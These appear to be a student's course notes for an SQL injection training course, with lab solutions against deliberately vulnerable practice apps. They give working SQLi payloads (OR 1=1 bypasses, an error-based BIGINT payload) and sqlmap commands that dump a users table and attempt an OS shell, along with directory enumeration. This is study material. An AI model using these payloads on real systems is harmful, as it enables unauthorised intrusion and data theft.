# SQL Injection Attacks

SQL Injection is one of the most commonly exploited injection vulnerabilities in web applications and poses a serious security risk to organizations. As a web application pentester or bug bounty hunter, it is vitally important to understand what causes SQL Injection vulnerabilities, how they can be identified, and how they can be exploited. The ability for attackers to run arbitrary queries against vulnerable systems can result in data exposure, modification, and in some cases, entire system compromise. SQL Injection vulnerabilities are often misunderstood and overlooked by developers primarily due to a lack of knowledge on how SQL queries can be weaponized by attackers.

This course will take you through everything from introducing you to SQL Injection, explaining the difference between In-Band, Blind, and Out-of-band SQLi, and will show you how to identify and exploit SQL Injection vulnerabilities in web applications through a mix of both manual and automated techniques.

---

## Course Introduction

### Course Topic Overview

- Identifying and Exploiting In-Band SQL Injection Vulnerabilities (Error-Based and Union-Based)
- Identifying and Exploiting Blind SQL Injection Vulnerabilities (Time-Based and Boolean-Based)
- Identifying and Exploiting SQL Injection Vulnerabilities with Automated Tools (SQLMap)
- Penetration Testing of NoSQL Databases

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with Linux
- Basic familiarity with OWASP ZAP/Burp Suite

### Learning Objectives

- You will have a solid understanding of what a SQL injection vulnerabilities are, what causes them and their potential impact.
- You will have an understanding of how Relational Databases and NoSQL databases work and how they differ from one another.
- You will have an understanding of the three different categories/types of SQL Injection vulnerabilities and their respective subtypes.
- You will be able to understand and write basic SQL queries.
- You will be able to identify and exploit In-Band SQL Injection vulnerabilities (Error-Based and UNION-Based SQLi).
- You will be able to identify and exploit Blind SQL Injection vulnerabilities (Time-Based and Boolean-Based SQLi).
- You will be able to automate the identification and exploitation of SQL Injection vulnerabilities with tools like SQLMap.
- You will be able to identify and exploit vulnerabilities in NoSQL databases.

---
---

## Finding SQLi Vulnerabilities

### Finding SQLi Vulnerabilities Manually

**Mutillidae II**

[Mutillidae II](https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project) is a deliberately vulnerable web application created by Jeremy Druin and currently maintained by [OWASP](https://www.owasp.org/). It is licensed under [GPLv3](https://www.gnu.org/licenses/gpl-3.0.html).

You can download Mutillidae 2 locally and install it in a virtual machine. We are providing an online version to save you time and pain of having to do that.

A sample set of vulnerabilities include:
- Authentication Bypass
- <u>SQL Injection</u>
- Click Jacking
- DOM Injection
- Cross Site Request Forgery
- File Inclusion
- Code Injection
and many more.

The following username and password may be used to explore the application:
- User: "samurai"
- Password: "samurai".

#### Lab Solution

`view-source:https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=login.php`:
```php
[...]

<tr>
	<td colspan="2" class="form-header">Please sign-in</td>
</tr>
<tr><td></td></tr>
<tr>
	<td class="label">Username</td>
	<td>
		<input SQLInjectionPoint="1" type="text" name="username" size="20"
				autofocus="autofocus"
							/>
	</td>
</tr>
<tr>
	<td class="label">Password</td>
	<td>
		<input SQLInjectionPoint="1" type="password" name="password" size="20"
							/>
	</td>
</tr>

[...]
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=login.php📌 HTTP/1.1
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username='+TEST&password=TEST123&login-php-submit-button=Login📌
```



`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=login.php📌 HTTP/1.1
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username='+OR+1%3d1--&password=TEST123&login-php-submit-button=Login📌
```



`burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /index.php?page=user-info.php&username='%2bOR%2b1%3d1%23&password=TEST123&user-info-php-submit-button=View+Account+Details📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=user-info.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```



`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=view-someones-blog.php📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=view-someones-blog.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

author=john&view-someones-blog-php-submit-button=View+Blog+Entries📌
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=view-someones-blog.php📌 HTTP/2
Host: d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=7nb356mmjsislctgqh9189avt3; showhints=1; username=admin; uid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com
Referer: https://d12pq8k24r2cf1qs3993gxuly.eu-central-6.attackdefensecloudlabs.com/index.php?page=view-someones-blog.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

author=' OR 1=1#&view-someones-blog-php-submit-button=View+Blog+Entries📌
```



### Finding SQLi Vulnerabilities with OWASP ZAP

#### Lab Solution

`zaproxy` > `Fuzzer` > `Fuzz Locations` = `Add` = `Type: File Fuzzers`, `jbrofuzz: SQL Injection` > `Start Fuzzer`











`zaproxy` > `Fuzzer` > `Fuzz Locations` = `Add` = `Type: File: /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt` > `Start Fuzzer`





---

## In-Band SQL Injection

### Exploiting Error-Based SQLi Vulnerabilities

#### Lab Environment

**PHPMyRecipes**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it.

<u>A version of PHPMyRecipes is vulnerable to an SQL injection attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /dosearch.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

words_preformat='📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 16:02:43 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2553

<html>

[...]

    <TD WIDTH=50>&nbsp;</TD>
    <TD WIDTH=600 VALIGN=TOP ALIGN=LEFT>
<P CLASS="content-header" ALIGN=LEFT><FONT COLOR="#DCDCDC">Database Error</FONT></P>
      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - dosearch.php<LI>Reason - Cannot select recipe lines by instructions/name<LI>Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' IN BOOLEAN MODE) ORDER BY name' at line 1</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

`burpsuite` > `Intruder` > `Payloads` = `Payload Options: Load: ~/tools/SecLists/Fuzzing/Databases/MySQL.fuzzdb.txt` > `Start attack`

`HTTP Request`:
```http
POST /login.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=" or 1=1#&password=TEST📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 16:12:22 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2490

<html>

[...]

      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - login.php<LI>Reason - Cannot perform select<LI>Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

`sqlmap -u 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php' -p 'words_exact' --data='words_exact=' --method=POST --technique=E`

🔄 Alternative 🔄

`vim ./request.txt`:
```http
POST /dosearch.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/findrecipe.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

words_all=&words_exact=TEST&words_any=&words_without=&name_exact=&ing_modifier=2📌
```

_SQL injection techniques to use (default "BEUSTQ")_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E`:
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:52:00 /2024-11-26/

[17:52:00] [INFO] parsing HTTP request from './request.txt'
[17:52:00] [INFO] testing connection to the target URL
[17:52:01] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[17:52:01] [CRITICAL] connection reset to the target URL. sqlmap is going to retry the request(s)
[17:52:01] [WARNING] if the problem persists please check that the provided target URL is reachable. In case that it is, you can try to rerun with switch '--random-agent' and/or proxy switches ('--proxy', '--proxy-file'...)
got a 307 redirect to 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] N
[17:52:05] [INFO] heuristic (basic) test shows that POST parameter 'words_exact' might be injectable (possible DBMS: 'MySQL')
[17:52:05] [INFO] heuristic (XSS) test shows that POST parameter 'words_exact' might be vulnerable to cross-site scripting (XSS) attacks
[17:52:05] [INFO] testing for SQL injection on POST parameter 'words_exact'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[17:52:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:52:33] [INFO] POST parameter 'words_exact' is 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)' injectable 
POST parameter 'words_exact' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 37 HTTP(s) requests:📌
---
Parameter: words_exact (POST)
    Type: error-based📌
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2📌
---
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /dosearch.php HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/findrecipe.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Tue, 26 Nov 2024 17:03:06 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 2490

<html>

[...]

      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - dosearch.php<LI>Reason - Cannot select recipe lines by instructions/name<LI>Text - BIGINT value is out of range in '(2 * if((select 'qzzqq1qxpzqx' from dual),8446744073709551610,8446744073709551610))'</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

`echo -n '0x717a7a7171' | xxd -r -p`:
```
qzzqq
```

`echo -n '0x7178707a71' | xxd -r -p`:
```
qxpzq
```

`echo -n '0x78' | xxd -r -p`:
```
x
```

_Retrieve DBMS current database_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --current-db`:
```
[...]

[18:09:58] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:09:58] [INFO] fetching current database
[18:09:58] [INFO] resumed: 'recipes'
current database: 'recipes'📌
[18:09:58] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:09:58 /2024-11-26/
```

_Enumerate DBMS database tables_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E -D 'recipes' --tables`:
```
[...]

Database: recipes📌
[7 tables]📌
+--------------------+
| categories         |
| ingredients        |
| recipe_ingredients |
| recipes            |
| sessions           |
| units              |
| users              |
+--------------------+

[18:12:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:12:27 /2024-11-26/
```

_Dump DBMS database table entries_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E -D 'recipes' -T 'users' --dump`:
```
[...]

Database: recipes
Table: users
[1 entry]
+----+-------+-------+--------------------+---------------+----------+
| id | email | privs | name               | password      | username |
+----+-------+-------+--------------------+---------------+----------+
| 1  | NULL  | 4096  | phpMyRecipes Admin | 6i1wgDRASJDhE | recipes  |📌
+----+-------+-------+--------------------+---------------+----------+

[18:14:05] [INFO] table 'recipes.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dump/recipes/users.csv'
[18:14:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:14:05 /2024-11-26/
```

`hash-identifier '6i1wgDRASJDhE'`:
```
   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] DES(Unix)
--------------------------------------------------
```

_Retrieve DBMS current user_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --current-user`:
```
[...]

[18:48:30] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:48:30] [INFO] fetching current user
[18:48:31] [INFO] retrieved: 'recipes@localhost'
current user: 'recipes@localhost'📌
[18:48:31] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:48:31 /2024-11-26/
```

_Prompt for an interactive operating system shell_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --os-shell`:
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:50:16 /2024-11-26/

[18:50:16] [INFO] parsing HTTP request from './request.txt'
[18:50:16] [INFO] resuming back-end DBMS 'mysql' 
[18:50:16] [INFO] testing connection to the target URL
got a 307 redirect to 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] N
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: words_exact (POST)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: words_all=&words_exact=TEST' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x717a7a7171,(SELECT (ELT(6150=6150,1))),0x7178707a71,0x78))s), 8446744073709551610, 8446744073709551610)))#&words_any=&words_without=&name_exact=&ing_modifier=2
---
[18:50:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:50:19] [INFO] going to use a web backdoor for command prompt
[18:50:19] [INFO] fingerprinting the back-end DBMS operating system
[18:50:20] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] Y
[18:50:27] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 

[18:50:31] [INFO] retrieved web server absolute paths: '/dosearch~.php'
[18:50:31] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:50:31] [WARNING] potential permission problems detected ('Access denied')
[18:50:33] [WARNING] unable to upload the file stager on '/var/www/'
[18:50:33] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:50:35] [WARNING] unable to upload the file stager on '/var/www/html/'
[18:50:35] [INFO] trying to upload the file stager on '/var/www/htdocs/' via LIMIT 'LINES TERMINATED BY' method
[18:50:37] [WARNING] unable to upload the file stager on '/var/www/htdocs/'
[18:50:37] [INFO] trying to upload the file stager on '/usr/local/apache2/htdocs/' via LIMIT 'LINES TERMINATED BY' method
[18:50:39] [WARNING] unable to upload the file stager on '/usr/local/apache2/htdocs/'
[18:50:39] [INFO] trying to upload the file stager on '/usr/local/www/data/' via LIMIT 'LINES TERMINATED BY' method
[18:50:42] [WARNING] unable to upload the file stager on '/usr/local/www/data/'
[18:50:42] [INFO] trying to upload the file stager on '/var/apache2/htdocs/' via LIMIT 'LINES TERMINATED BY' method
[18:50:44] [WARNING] unable to upload the file stager on '/var/apache2/htdocs/'
[18:50:44] [INFO] trying to upload the file stager on '/var/www/nginx-default/' via LIMIT 'LINES TERMINATED BY' method
[18:50:47] [WARNING] unable to upload the file stager on '/var/www/nginx-default/'
[18:50:47] [INFO] trying to upload the file stager on '/srv/www/htdocs/' via LIMIT 'LINES TERMINATED BY' method
[18:50:50] [WARNING] unable to upload the file stager on '/srv/www/htdocs/'
[18:50:50] [INFO] trying to upload the file stager on '/usr/local/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:50:52] [WARNING] unable to upload the file stager on '/usr/local/var/www/'
[18:50:52] [INFO] trying to upload the file stager on '/' via LIMIT 'LINES TERMINATED BY' method
[18:50:53] [WARNING] unable to upload the file stager on '/'
[18:50:53] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[18:50:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:50:53 /2024-11-26/
```
❌

### Exploiting Union-Based SQLi Vulnerabilities

#### Lab Environment

**Union Based SQLi**

College Exams are over and the results are out! ABC University had released the exam results on the portal developed by their college students.

<u>One of the student found that the portal was vulnerable to Union-based SQL Injection</u>.

**Note**: <u>The backend database is SQLite</u>.

**Objective**: Leverage the vulnerability to determine the SQLite version and the dump flag from the database!

#### Lab Solution












---

## Blind SQL Injection

### Introduction to Boolean-Based SQLi Vulnerabilities

#### Lab Environment

**OpenSupports**

In the exercise below, the attacker is not authenticated to the web application and needs to find a broken authentication attack on it.

<u>A version of OpenSupports is vulnerable to broken authentication attack</u>.

**Objective:** Your task is to find and exploit this vulnerability.

#### Lab Solution

`gobuster dir -u https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/ -w /usr/share/wordlists/dirb/common.txt`
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 337]
/.htpasswd            (Status: 403) [Size: 342]
/.htaccess            (Status: 403) [Size: 342]
/admin                (Status: 301) [Size: 418] [--> http://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/admin/]📌
/archive              (Status: 200) [Size: 4441]
/cgi-bin/             (Status: 403) [Size: 341]
/close                (Status: 302) [Size: 0] [--> index.php]
/config               (Status: 200) [Size: 0]
/document             (Status: 200) [Size: 81]
/edit                 (Status: 200) [Size: 75]
/error                (Status: 200) [Size: 8733]
/files                (Status: 301) [Size: 418] [--> http://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/files/]
/html                 (Status: 301) [Size: 417] [--> http://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/html/]
/index.php            (Status: 200) [Size: 9099]
